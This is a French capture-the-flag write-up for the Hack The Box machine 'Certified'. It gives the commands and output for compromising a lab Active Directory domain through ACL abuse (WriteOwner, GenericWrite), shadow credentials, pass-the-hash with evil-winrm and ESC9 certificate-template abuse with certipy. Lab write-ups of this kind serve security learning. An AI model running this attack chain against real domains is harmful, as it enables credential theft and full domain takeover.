




Ceci est mon premier writeup pour une box HTB.
## Résumé
User: Abus d'ACL\
Root: Abus template ADCS

## Enumeration
A l'aide d'un scan nmap, nous pouvons identifier que cette machine est un contrôleur de domaine Active Directory.


$ nmap 10.10.11.41 -Pn -v

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl


Nous pouvons utiliser bloodhound-python avec le compte fourni *judith.mader* afin de récupérer des informations concernant le domaine certified.htb.

$ bloodhound-python -u 'judith.mader' -p 'judith09' -ns 10.10.11.41 -d certified.htb -c all
INFO: Found AD domain: certified.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.certified.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 10 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.certified.htb
INFO: Done in 00M 03S


Dans BloodHound, nous pouvons facilement remarquer quel chemin prendre afin d'obtenir un accès interactif avec la machine.



## User
### Judith -> Management Group
Nous remarquons que *Judith* a la permission ```WriteOwner``` sur le groupe *management*.
Cette permission nous permet d'ajouter *Judith* en tant que propriétaire et membre du groupe.


Premièrement, nous changeons le propriétaire du groupe.

$ ./owneredit.py -action write -new-owner 'judith.mader' -target 'MANAGEMENT' 'CERTIFIED.HTB'/'judith.mader':'judith09'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!


Ensuite, nous ajoutons *Judith* en tant que membre du groupe.

$ ./dacledit.py -k 'certified.htb/judith.mader:judith09' -dc-ip certified.htb -principal judith.mader -target "management" -action write -rights FullControl
[-] CCache file is not found. Skipping...
[*] DACL backed up to dacledit-20250314-002015.bak
[*] DACL modified successfully!


$ net rpc group members "management" -U 'judith.mader' -S certified.htb           
Password for [WORKGROUP\judith.mader]:
CERTIFIED\management_svc

$ net rpc group addmem "management" judith.mader -U 'judith.mader' -S certified.htb

$ net rpc group members "management" -U 'judith.mader' -S certified.htb            
Password for [WORKGROUP\judith.mader]:
CERTIFIED\judith.mader
CERTIFIED\management_svc


### Management group -> management_svc

En revenant sur BloodHound, nous remarquons que *management_svc* est kerberoastable mais le hash obtenu n'est pas crackable.
Nous pouvons voir que les membres du groupe *management* ont la permission ```GenericWrite``` sur l'utilisateur *management_svc*.
En exploitant cette permission, nous pouvons utiliser la technique shadow credentials afin d'obtenir le NT hash de *management_svc*.


Premièrement, nous générons un fichier *.pfx* et l'utilisons pour alimenter l'attribut `msDS-KeyCredentialLink` de *management_svc* en utilisant Pywhisker.

$ ./pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: d1df9aac-4ae1-36e0-f803-d8e369ed930e
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: 9JZGbAPu.pfx
[+] PFX exportiert nach: 9JZGbAPu.pfx
[i] Passwort für PFX: c2U4qtZsMkLNEedx4nFb
[+] Saved PFX (#PKCS12) certificate & key at path: 9JZGbAPu.pfx
[*] Must be used with password: c2U4qtZsMkLNEedx4nFb
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools


Ensuite, nous obtenons un TGT pour *management_svc* et le NT hash en utilisant PKINITtools.

$ ./gettgtpkinit.py certified.htb/management_svc -cert-pfx 9JZGbAPu.pfx -pfx-pass c2U4qtZsMkLNEedx4nFb management_svc.ccache
2025-03-14 01:42:02,044 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-14 01:42:02,082 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-14 01:42:02,138 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-14 01:42:02,138 minikerberos INFO     37b5b0b8873bb21cdf40daad3dcf408af0be706f772bf52dda96dbecfa00f041
INFO:minikerberos:37b5b0b8873bb21cdf40daad3dcf408af0be706f772bf52dda96dbecfa00f041
2025-03-14 01:42:02,141 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

$ KRB5CCNAME=management_svc.ccache ./getnthash.py CERTIFIED.HTB/management_svc -key 37b5b0b8873bb21cdf40daad3dcf408af0be706f772bf52dda96dbecfa00f041
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a<...>4

$ crackmapexec smb 10.10.11.41 -u "management_svc" -H a<...>4
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\management_svc:a<...>4


Ensuite, nous pouvons utiliser evil-winrm pour obtenir un shell sur la machine via l'utilisateur *management_svc*.
Même si le port n'est pas indiqué comme ouvert sur le scan initial de nmap, il est ouvert.\
Finalement, nous pouvons récupérer le hash pour la partie utilisateur.

$ evil-winrm -i 10.10.11.41 -u management_svc -H a<...>4
<...>
*Evil-WinRM* PS C:\Users\management_svc\Desktop> dir
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/13/2025   2:54 PM             34 user.txt


## Root
### management_svc -> ca_operator

Maintenant que *management_svc* est compromis, nous pouvons observer dans BloodHound que *ca_operator* peut aussi être compromis en utilisant la même technique abusant cette fois-ci de la permission ```GenericAll``` que *management_svc* a sur *ca_operator*.



$ ./pywhisker.py -d "certified.htb" -u "management_svc" -H "a<...>4" --target "ca_operator" --action "add"
[*] Searching for the target account
[*] Target user found: CN=operator ca,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 174934b2-1249-c39a-bc89-5b4b5c01b784
[*] Updating the msDS-KeyCredentialLink attribute of ca_operator
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: zlax30FB.pfx
[+] PFX exportiert nach: zlax30FB.pfx
[i] Passwort für PFX: CiktaI0YO7y9IV9T9mnM
[+] Saved PFX (#PKCS12) certificate & key at path: zlax30FB.pfx
[*] Must be used with password: CiktaI0YO7y9IV9T9mnM
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

$ ./gettgtpkinit.py certified.htb/ca_operator -cert-pfx EkDY6hor.pfx -pfx-pass WlZFTKpVBy3BzPXcgzCX ca_operator.ccache
2025-03-14 03:11:26,295 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-14 03:11:26,333 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-14 03:11:50,020 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-14 03:11:50,020 minikerberos INFO     91a30e694f68d016d12e103de8305e1b124aee33130f0795aec79178e9e46b41
INFO:minikerberos:91a30e694f68d016d12e103de8305e1b124aee33130f0795aec79178e9e46b41
2025-03-14 03:11:50,023 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

$ ./getnthash.py CERTIFIED.HTB/ca_operator -key 91a30e694f68d016d12e103de8305e1b124aee33130f0795aec79178e9e46b41
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
b<...>2


### ESC9, ADCS template abuse

Par le nom de la machine et en remarquant que ADCS est actif sur la machine, nous pouvons clairement déduire que la partie root va concerner les certificats ADCS.

$ nxc ldap 10.10.11.41 -u management_svc -H a<...>4 -M adcs
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.41     389    DC01             [+] certified.htb\management_svc:a<...>4
ADCS        10.10.11.41     389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.11.41     389    DC01             Found PKI Enrollment Server: DC01.certified.htb
ADCS        10.10.11.41     389    DC01             Found CN: certified-DC01-CA


En utilisant certipy-ad, nous pouvons trouver une vulnérabilité sur le template `CertifiedAuthentication`.

$ certipy-ad find -u 'ca_operator@certified.htb' -hashes b<...>2 -dc-ip '10.10.11.41' -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[*] Got CA configuration for 'certified-DC01-CA'
[*] Saved BloodHound data to '20250313205721_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250313205721_Certipy.txt'
[*] Saved JSON output to '20250313205721_Certipy.json'

$ cat 20250313205721_Certipy.txt
<...>
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
<...>
 [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
<...>


En utilisant le chemin d'attaque figurant sur [thehacker.recipes](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension) pour ESC9, nous pouvons compromettre le compte administrateur du domaine.

Nous possédons déjà le NT hash de *ca_operator* donc nous pouvons changer son attribut ```userPrincipalName``` pour Administrator.

$ certipy-ad account update -username "management_svc@certified.htb" -hashes a<...>4 -user ca_operator -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'



Ensuite, nous pouvons demander un certificat d'authentification en tant que *ca_operator* en utilisant le template vulnérable.\
Les valeurs de ca et template peuvent être trouvées dans le .txt généré ultérieurement.

$ cat 20250313205721_Certipy.txt
<...>
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
<...>


$ certipy-ad req -username "ca_operator@certified.htb" -hashes b<...>2 -target "10.10.11.41" -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'



Dernièrement, nous pouvons rechanger le ```userPrincipalName``` *ca_operator* pour lui même et ensuite obtenir le NT hash d'Administrator en utilisant le fichier administrator.pfx généré.

$ certipy-ad account update -username "management_svc@certified.htb" -hashes a<...>4 -user ca_operator -upn "ca_operator@certified.htb" -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'


$ certipy-ad auth -pfx 'administrator.pfx' -domain "certified.htb"
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': a<...>e:0<...>4


Avec ce hash, nous pouvons récupérer le flag root via evil-winrm.

$ evil-winrm -i 10.10.11.41 -u Administrator -H 0<...>4 
<...>
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/13/2025   2:54 PM             34 root.txt


## Ressources
> [thehacker.recipes - certificate templates](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension) 